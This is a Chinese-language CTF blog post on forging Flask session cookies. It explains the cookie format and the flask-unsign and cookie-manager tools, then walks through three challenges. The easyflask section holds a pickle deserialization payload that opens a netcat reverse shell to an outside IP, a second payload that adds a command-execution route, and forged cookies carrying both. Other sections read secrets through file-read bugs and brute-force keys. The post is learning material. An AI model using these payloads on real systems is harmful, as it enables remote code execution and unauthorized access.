


+++
title = "flask中的session伪造"
slug = "flask-session-forgery"
description = ""
date = "2024-10-22T15:30:50"
lastmod = "2024-10-22T15:30:50"
image = ""
license = ""
categories = ["talk"]
tags = ["flask"]
+++

# 0x01 说在前面

在一般的情况下，网站都会做一个简答的身份验证，而flask当中自然也有，这种就是我们常见的`session`，`session`是什么，可以看这个文章

```
https://baozongwi.xyz/2024/09/11/%E6%B5%85%E8%B0%88session%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
```

# 0x02 question

现在网上进行session伪造的很少有不需要`key`的几乎没有，所以这里推荐一个工具叫做`flask-unsign`，还有就是大家经常使用的脚本，不过我们先看一下结构

## 结构

先随便生成一个session

```
eyJsb2NhbGUiOiJlbiJ9-ZSDIwA-v5-mHM9ITAx5lbFhwa3jNnWTIYY
```

Flask Session 的组成结构主要由三部分构成，第一部分为 Session Data ，即会话数据。第二部分为 Timestamp ，即时间戳。第三部分为 Cryptographic Hash ，即加密哈希。如下图



下面的结果是看**P牛**的博客知道的(他有代码)

1. json.dumps 将对象转换成json字符串，作为数据
2. 如果数据压缩后长度更短，则用zlib库进行压缩
3. 将数据用base64编码
4. 通过hmac算法计算数据的签名，将签名附在数据后，用“.”分割

签名只能防篡改不能防止被读取，所以我们只要有key就可以伪造`cookie`

## 解密代码

我们上面已经知道了逻辑，那么来分析一个脚本

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode


def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                        'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                            'decoding the payload')

    return session_json_serializer.loads(payload)


if __name__ == '__main__':
    print(decryption("eyJ1c2VybmFtZSI6eyIgYiI6IlozVmxjM1E9In19.XyZ3Vw.OcD3-l1yOcq8vlg8g4Ww3FxrhVs".encode()))

```

一步步来首先，用`.`给`session`分开，然后看看是否是压缩过的

```python
	decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True
```

如果是`.`开头那需要解压，那么我们是导入了用来处理用于安全地签名和解签名数据的`itsdangerous`中的`base64_decode`来进行会话数据的处理

测了是否是压缩数据之后就用这个函数进行数据处理然后再看是否需要进行解压，看懂代码的师傅已经发现我们只处理了session的第一段，所以这里是不需要密钥的，就可以看到解密数据，只不过解密的话不好搞

## flask-unsign

安装直接可以利用pip库进行安装

```
pip install flask-unsign
```

然后就可以进行具体的使用了，说一下常用的命令吧

**解码 Cookie**

```
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```

**暴力破解**

```
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval

flask-unsign --unsign --cookie '<SessionCookieStructure>'
```

**签名**

```
flask-unsign --sign --cookie "{'name': 'admin'}" --secret 'SCFmkpovdDVCJPO21cvcds'
```

**使用旧版本进行签名**

```
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

## flask-session-cookie-manager

这个项目之前我经常用，不过他不能够爆破所以后面就都用的`unsign`了

```
https://github.com/noraj/flask-session-cookie-manager
```

基本的命令

**Encode**

```
python{2,3} flask_session_cookie_manager{2,3}.py encode -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d' -t '{"number":"326410031505","username":"admin"}'
eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw
```

**Decode With secret key:**

```
python{2,3} flask_session_cookie_manager{2,3}.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw' -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d'
{u'username': 'admin', u'number': '326410031505'}
```

**Without secret key (less pretty output):**

```
python{2,3} flask_session_cookie_manager{2,3}.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw'
{"number":{" b":"MzI2NDEwMDMxNTA1"},"username":{" b":"YWRtaW4="}}
```

`s`是密钥，刚才我们知道了无`key`的解密代码，这里我们剖析一下代码，看看生成逻辑学习一下，

先看**Python2**

```python
#!/usr/bin/env python2
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] <= 2 and sys.version_info[1] < 6:  # < 2.6
    raise Exception('Must be using at least Python 2.6')
elif (sys.version_info[0] == 2 and sys.version_info[1] >= 6):  # >= 2.6 && < 3.0
    from abc import ABCMeta, abstractmethod
else:  # > 3.0
    raise Exception('Use Python 3 version of the script')

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


class FSCM:
    __metaclass__ = ABCMeta

    @classmethod
    def encode(cls, secret_key, session_cookie_structure):
        """ Encode a Flask session cookie """
        try:
            app = MockApp(secret_key)

            session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
            si = SecureCookieSessionInterface()
            s = si.get_signing_serializer(app)

            return s.dumps(session_cookie_structure)
        except Exception as e:
            return "[Encoding error] {}".format(e)
            raise e

    @classmethod
    def decode(cls, session_cookie_value, secret_key=None):
        """ Decode a Flask cookie  """
        try:
            if (secret_key == None):
                compressed = False
                payload = session_cookie_value

                if payload.startswith('.'):
                    compressed = True
                    payload = payload[1:]

                data = payload.split(".")[0]

                data = base64_decode(data)
                if compressed:
                    data = zlib.decompress(data)

                return data
            else:
                app = MockApp(secret_key)

                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.loads(session_cookie_value)
        except Exception as e:
            return "[Decoding error] {}".format(e)
            raise e


if __name__ == "__main__":
    # Args are only relevant for __main__ usage

    ## Description for help
    parser = argparse.ArgumentParser(
        description='Flask Session Cookie Decoder/Encoder',
        epilog="Author : Wilson Sumanang, Alexandre ZANNI")

    ## prepare sub commands
    subparsers = parser.add_subparsers(help='sub-command help', dest='subcommand')

    ## create the parser for the encode command
    parser_encode = subparsers.add_parser('encode', help='encode')
    parser_encode.add_argument('-s', '--secret-key', metavar='<string>',
                               help='Secret key', required=True)
    parser_encode.add_argument('-t', '--cookie-structure', metavar='<string>',
                               help='Session cookie structure', required=True)

    ## create the parser for the decode command
    parser_decode = subparsers.add_parser('decode', help='decode')
    parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
                               help='Secret key', required=False)
    parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
                               help='Session cookie value', required=True)

    ## get args
    args = parser.parse_args()

    ## find the option chosen
    if (args.subcommand == 'encode'):
        if (args.secret_key is not None and args.cookie_structure is not None):
            print(FSCM.encode(args.secret_key, args.cookie_structure))
    elif (args.subcommand == 'decode'):
        if (args.secret_key is not None and args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value, args.secret_key))
        elif (args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value))


```

首先进行python版本的检查，然后就是创建一个抽象基类进行解码和编码了

```python
@classmethod
def encode(cls, secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        # 创建一个虚拟flask用来处理消息
        app = MockApp(secret_key)
        # 将字符串形式的会话转字典
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        # 创建会话接口
        si = SecureCookieSessionInterface()
        # 调用 get_signing_serializer 方法来获取签名序列化器
        s = si.get_signing_serializer(app)
		# 返回字符串形式的会话数据
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)

```

`SecureCookieSessionInterface` 是Flask中用于管理会话的类

再来看看解密

```python
@classmethod
    def decode(cls, session_cookie_value, secret_key=None):
        """ Decode a Flask cookie  """
        try:
            if (secret_key == None):
                compressed = False
                payload = session_cookie_value

                if payload.startswith('.'):
                    compressed = True
                    payload = payload[1:]

                data = payload.split(".")[0]

                data = base64_decode(data)
                if compressed:
                    data = zlib.decompress(data)

                return data
            else:
                app = MockApp(secret_key)

                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.loads(session_cookie_value)
        except Exception as e:
            return "[Decoding error] {}".format(e)
            raise e
```

如果没有key就像我们之前分析的解密代码一样操作，如果有key就调用`SecureCookieSessionInterface` 的签名序列化器进行解码，主程序的话就是处理终端问题了

看**Python3**

```python
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3:  # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else:  # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e

        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if (secret_key == None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e
else:  # > 3.4
    class FSCM(ABC):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e

        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if (secret_key == None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e

if __name__ == "__main__":
    # Args are only relevant for __main__ usage

    ## Description for help
    parser = argparse.ArgumentParser(
        description='Flask Session Cookie Decoder/Encoder',
        epilog="Author : Wilson Sumanang, Alexandre ZANNI")

    ## prepare sub commands
    subparsers = parser.add_subparsers(help='sub-command help', dest='subcommand')

    ## create the parser for the encode command
    parser_encode = subparsers.add_parser('encode', help='encode')
    parser_encode.add_argument('-s', '--secret-key', metavar='<string>',
                               help='Secret key', required=True)
    parser_encode.add_argument('-t', '--cookie-structure', metavar='<string>',
                               help='Session cookie structure', required=True)

    ## create the parser for the decode command
    parser_decode = subparsers.add_parser('decode', help='decode')
    parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
                               help='Secret key', required=False)
    parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
                               help='Session cookie value', required=True)

    ## get args
    args = parser.parse_args()

    ## find the option chosen
    if (args.subcommand == 'encode'):
        if (args.secret_key is not None and args.cookie_structure is not None):
            print(FSCM.encode(args.secret_key, args.cookie_structure))
    elif (args.subcommand == 'decode'):
        if (args.secret_key is not None and args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value, args.secret_key))
        elif (args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value))


```

其实可以看到，加解密逻辑是一样的，区别主要是不同版本引入合适的抽象基类模块是不一样的

```python
if sys.version_info[0] < 3:  # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4:  # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else:  # > 3.4
    from abc import ABC, abstractmethod
```

> `ABCMeta` 是一个元类，用来创建抽象类。在 Python 3.0-3.3 版本中，所有的抽象类都必须通过 `ABCMeta` 来创建，使用 `abstractmethod` 标记的方法必须在子类中实现。从 Python 3.4 开始，Python 直接引入了 `ABC` 类，作为所有抽象类的基类，不再需要通过 `ABCMeta` 作为元类来定义抽象类。

## demo

### **demo1**

```python
from flask import Flask,session
import os
from datetime import timedelta
app = Flask(__name__)
app.config['SECRET_KEY']='admin'   #设置为24位的字符,每次运行服务器都是不同的，所以服务器启动一次上次的session就清除。
app.config['PERMANENT_SESSION_LIFETIME']=timedelta(days=7) #设置session的保存时间。


@app.route('/')
def hello_world():
    session.permanent=True  #默认session的时间持续31天
    session['username'] = 'st4ck'

    return 'Hello World!'

#获取session
@app.route('/get/')
def get():
    return  session.get('username')

#删除session
@app.route('/delete/')
def delete():
    print(session.get('username'))
    session.pop('username')
    print(session.get('username'))
    return 'delete'
#清楚session
@app.route('/clear/')
def clear():
    print(session.get('username'))
    session.clear()
    print(session.get('username'))
    return 'clear'

if __name__ == '__main__':
    app.run(debug=True)

```

首先我们进页面拿到`session`之后，直接伪造就成功了

```
flask-unsign --unsign --cookie 'eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Zxdmow.BzAFkrTH8uJ0vjX9NK84fs4fd_4'
得到key为admin

flask-unsign --sign --cookie "{'_permanent': True, 'username': 'admin'}" --secret 'admin'
```

不过我在测试的时候发现了一个问题就是第一次伪造居然没有成功



### [CISCN2019 华东南赛区]Web4

进来发现可以任意文件读取，发现有session，读取一下源码

```
http://9c691607-93a5-4804-8bf3-0c970945b836.node5.buuoj.cn:81/read?url=/app/app.py
```

得到

```python
# encoding:utf-8
import re
import random
import uuid
import urllib
from flask import Flask, session, request

app = Flask(__name__)

random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random() * 233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! Read somethings'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        
        if m or n:
            return 'No Hack'
        
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print(str(ex))
        return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__ == '__main__':
    app.run(debug=True, host="0.0.0.0")
```

这里简单的看看发现这个key是`uuid.getnode()` 获取设备的 MAC 地址，并且基于它生成一个随机数种子，将其乘以 `233`，那么这里我们要先得到Linux的mac地址才可以

```
http://9c691607-93a5-4804-8bf3-0c970945b836.node5.buuoj.cn:81/read?url=/sys/class/net/eth0/address

26:02:a0:70:24:ff
```

然后写个脚本转换成十进制

```python
import random

mac="26:02:a0:70:24:ff"
nmac=mac.replace(":","")
random.seed(int(nmac,16))
key=str(random.random()*233)
print(key)
# 151.884456934
```

然后必须使用python2运行脚本，不然会key不对，因为容器的版本是python2，这里我没有所以下载了一会

```
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.ZxdrSA.Ncr0UTHnOZMsHMD2ShMa4FqUq78' -s '151.884456934'

python3 flask_session_cookie_manager3.py encode -s '151.884456934' -t "{'username':'fuck'}"
eyJ1c2VybmFtZSI6ImZ1Y2sifQ.Zxdvlg.yMn9uQGEEXQ0_1hrxkuEnKnLo88
```

然后就可以了

### [HFCTF 2021 Final]easyflask

首先进来然后读到源码

```python
#!/usr/bin/python3.6

import os
import pickle
from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

# 定义一个 User 类
User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})

@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"

@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'
    
    with open(path, 'r') as fp:
        content = fp.read()
    return content

@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
        u = pickle.loads(u)
    except Exception:
        return 'uhh?'
    
    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```

发现是一个pickle反序列化，而且这个反序列化还比较特别

```
flask-unsign --decode --cookie 'eyJ1Ijp7IiBiIjoiZ0FTVkdBQUFBQUFBQUFDTUNGOWZiV0ZwYmw5ZmxJd0VWWE5sY3BTVGxDbUJsQzQ9In19.Zxd0Ew.FE739mDkORjZKi8wUsoC_ihTmPU'
```

这里解密之后可以看出是吧pickle的数据放到session里面，然后再访问`/admin`路由来进行RCE

写个`poc`

```python
import pickle
import base64

class User(object):
    def __reduce__(self):
        return (eval,("__import__('os').system('nc 110.42.47.145 9999 -e /bin/sh')",))

a=pickle.dumps(User())
b=base64.b64encode(a)

print(b)
# b'gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDI3LjI1LjE1MS40OCA5OTk5IC1lIC9iaW4vc2gnKZSFlFKULg=='
```

我们直接在`User`类里面加入`reduce`方法，现在还缺少key，读取文件看看

```
http://d79f09e0-eba8-4366-b99e-7a3f58f3488b.node5.buuoj.cn:81/file?file=/proc/self/environ

glzjin22948575858jfjfjufirijidjitg3uiiuuh
```

然后伪造cookie

```
flask-unsign --sign --cookie "{'u':'gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDI3LjI1LjE1MS40OCA5OTk5IC1lIC9iaW4vc2gnKZSFlFKULg=='}" --secret 'glzjin22948575858jfjfjufirijidjitg3uiiuuh'

eyJ1IjoiZ0FTVlZ3QUFBQUFBQUFDTUNHSjFhV3gwYVc1emxJd0VaWFpoYkpTVGxJdzdYMTlwYlhCdmNuUmZYeWduYjNNbktTNXplWE4wWlcwb0oyNWpJREV4TUM0ME1pNDBOeTR4TkRVZ09UazVPU0F0WlNBdlltbHVMM05vSnltVWhaUlNsQzQ9In0.Zxd4LQ.nb_BX_nxzya9tPD4hB_4rzVqSO8
```

但是并没有成功，后面发现参数不对

```
flask-unsign --sign --cookie "{'u':{'b':'gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDI3LjI1LjE1MS40OCA5OTk5IC1lIC9iaW4vc2gnKZSFlFKULg=='}}" --secret 'glzjin22948575858jfjfjufirijidjitg3uiiuuh'

.eJwtxsEOgiAAANB_4QtAxU03D0baQM0tTBg3cEWRoy5Z6fz3OvRObwFPkC7AgBTYnPe9zf9IQ3YMafGGWuB5pK9CSXUxjHe_xxIlDyM30-APZ_mx3oSNrzieT3IPlYB3FmBHtzSsHUW1K1DDI9iSHLfdDVOCRkqSqxbRNATWV4qXY1kda5tlYF2_C_Etvg.Zxd8rQ.PttfeJwijgdIb2u0ggL-LrqGPR0
```

理论上我这里真的找不出错误来不过只要带着正确的payload就直接500了，弹不出来`shell`

```python
import base64
import pickle

class User(object):
    def __reduce__(self):
        return (eval, ('app.add_route(lambda request:__import__("os").popen(request.args.get("cmd")).read(), "/shell", methods=["GET", "POST"])',))

a = pickle.dumps(User())
b=base64.b64encode(a)
print(b)


# b'gASVkwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIx3YXBwLmFkZF9yb3V0ZShsYW1iZGEgcmVxdWVzdDpfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKHJlcXVlc3QuYXJncy5nZXQoImNtZCIpKS5yZWFkKCksICIvc2hlbGwiLCBtZXRob2RzPVsiR0VUIiwgIlBPU1QiXSmUhZRSlC4='
```

```
flask-unsign --sign --cookie "{'u':{'b':'gASVkwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIx3YXBwLmFkZF9yb3V0ZShsYW1iZGEgcmVxdWVzdDpfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKHJlcXVlc3QuYXJncy5nZXQoImNtZCIpKS5yZWFkKCksICIvc2hlbGwiLCBtZXRob2RzPVsiR0VUIiwgIlBPU1QiXSmUhZRSlC4='}}" --secret 'glzjin22948575858jfjfjufirijidjitg3uiiuuh'

.eJwtwdtugyAAANB_4Qu8zAeb7KGyakG3VJmAvFVMlYjWxAti03_fy855gRWcXqAGJ9CeCe3N-R_8hgl272x37iw4NDIXwUVXY_Kr0e5XPDLZEPciDm3tU0eQbq6Yq0RyaeVA94bRo_maHtzTi0xC28ThI4V4kxZN2RhtMqFresVacqqln68Vx6O0wSh4_kTDzyIgmlISWMHiPoX9jCDapNfpOjEqg9EiePGsveK40VkVDi2RMi3S0a10c8XJUHaiIBp-fIL3-w9Gu0yK.Zxd-VA.hF90jV5bi9v_kg2bzjDkz5Bo3bE
```

这个还是没有用，不懂了

### [HCTF 2018]admin

这里的话是一道老相思了，一个审计的flask题目，经过审计得到key为`ckj123`

```
flask-unsign --decode --cookie '.eJxFUMtuwjAQ_JVqzxyKEx-KxIHKEIG0jkxtIu8F8QghDgYpgAJG_HtdKrXXmdl57AOWu7Y872Fwaa9lD5b1FgYPeFvDADCMGYmJRz1i1s8O5KqO_KJGb-95NqlJjzgGc0OHXGbjm9RVlwsbyDWpZLMDum1j_dxhwD4KwyhDjgxTcoaTUD96bp1s0FVJXpgk1-aOBaZSz10uPve2GCckLLdBdaQVz0XM8OSkHqUyYlJPE3KzeK-G8OzB5tzulpdTUx7_JzAVozd3KlRK2cKjoIYK01ltOultrD6vMdg-xpo2TBlqk0g1fNnVflWVf05f_sNsul_muPKRgPXqFE7HqquhB9dz2b5-B_13eH4D3_9ulw.Zxdw0g.ctfAsW_RL46CliW21lMecJxokiY'

flask-unsign --sign --cookie "{'_fresh': True, '_id': b'316d1f106bbef80feb2f28abe093512394a1580863f987be27dbdc335056dc93c8f59d41589b3d2879e79521c854c80aaa7d69c40e498116fc508740527f2d24', 'csrf_token': b'3d5072ed8def06dee0a506f124b3652dcc261575', 'image': b'JoTs', 'name': 'admin', 'user_id': '10'}" --secret 'ckj123'
得到cookie
.eJxFUMtuwjAQ_JVqzxyKEx-KxIHKEIG0jkxtIu8lohBCHEylAAoY8e91qdReZ2bnsXcod1112sPo3F2qAZTNFkZ3ePmEEWCYMhIzj3rCrF8cyNU9-VWD3t7ybNaQnnAM5ooOucymV6nrPhc2kGtTyRYHdNvW-qXDgEMUhlGGHBmm5AwnoX703DrZoquTvDBJrs0NC0ylXrpcvO9tMU1IWG6D6kkrnouY4clJPUllxKSeJ-QW8V6N4TGAzanbleevtjr-T2AqRm9uVKiUspVHQS0Vprfa9NLbWH3ZYLBDjDVtmDPUJpFq_LRr_Lqu_pw-_JvZ9L_Mce0jAeutb44wgMup6p5_g-ErPL4BHS9s0A.ZxdxYg.N1yzi4FzuxhmJUonmrDtH5t7d8M
```

# 0x03 小结

其实看了这么多，主要就是学学代码思路，原理的话可以看P牛的博客，其中跟着代码走走，这里有个小点子就是`key`一般都放在环境变量或者`config`里面，这些demo基本都是
